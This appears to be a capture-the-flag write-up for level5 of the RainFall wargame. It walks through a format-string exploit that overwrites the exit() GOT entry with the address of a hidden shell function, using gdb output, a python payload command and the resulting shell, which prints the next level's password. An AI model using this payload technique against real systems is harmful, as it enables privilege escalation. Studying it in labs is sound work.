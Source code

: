 level5 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

level5 rights:
```Shell
level5@RainFall:~$ ls -la level5 
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```

This binary has the same behaviour as the other one.
Decompiling with Ghidra on https://dogbolt.org/ shows the main difference with the previous executable: there is an uncalled function `o()` that opens a shell. The `n()` function also calls `printf()` and `exit()`.
Once again, we can exploit `printf()` the way we did before; however, we need to find access to the `o()` function.

The goal is to redirect the flow of execution towards `o()` perhaps by replacing the call to `exit()` by a call to `o()`.
First, let's find the address where the address of `exit()` is stored. This required learning about [GOT](https://ctf101.org/binary-exploitation/what-is-the-got/)(Global Offset Table).
Let's disassemble `n()`:
```Shell
(gdb) disas n
Dump of assembler code for function n:
[...]
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```
This is not `exit()` address, but a call to a function that fetches `exit()`. So let's disassemble it as well:
```Shell
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

We can see that the first step consists in jumping to an address. If we investigate this address with the `x` option in GDB, here is what we get:
```Shell
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6
```
Therefore the jump was indeed done to the address of `exit()`, which converted to Little Endian is: `\x38\x98\x04\x08`. This will be the first part of our payload, as it will sit at the start of our buffer.


Now let's get the address of `o()`. The x option in gdb allow us to view the memory content at a specified address or a variable name:
```Shell
(gdb) x o
0x80484a4 <o>:  0x83e58955
```
This is the address of `o()` in decimal: 134513824. Why decimal? Because just like the previous exploit, we will use `%d` to rewrite a value with `%n`. So what we want is this: the address of `exit()` must be overwritten by the address of `o()`, so we'll pass it as decimal to be able to use `%n`. 

Finally, in order to give the right argument from the stack to `%n`, let's find our buffer's index:
```Shell
level5@RainFall:~$ ./level5 
AAAA %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```
Now we know it starts at the 4th index.

Our payload will be:
```Shell
python -c 'print("\x38\x98\x04\x08" + "%134513824d%4$n")' > /tmp/payload5
```

And the result is:
```Shell
level5@RainFall:~$ cat /tmp/payload5 - | ./level5
[...]
512
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```